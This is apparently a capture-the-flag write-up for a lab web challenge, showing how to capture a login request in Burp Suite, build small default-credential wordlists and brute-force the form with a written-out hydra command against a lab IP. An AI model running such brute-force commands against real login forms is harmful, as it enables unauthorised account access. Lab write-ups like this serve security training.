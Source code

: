 # [Day 3] Web Exploitation Christmas Chaos 

Open up the IP of the box in your browser.

![login](img/login.png)

Try to login with any username and password and capture the post request.
E.g in Burp Suite 

![failed_login](img/failed_login.png)

![post](img/post.png)

Create two wordlists:

One for the usernames

```
# username.txt
admin
user
root
```

And one for the passwords

```
# password.txt
password
admin
12345
```

Let hydra crack the login form for you

```
sudo hydra -L username.txt -P passwords.txt 10.10.217.210 http-post-form "/login:username=^USER^&password=^PASS^:Your username is incorrect.."
```

Finlly login with the dicovered credentials

![loggedin](img/loggedin.png)
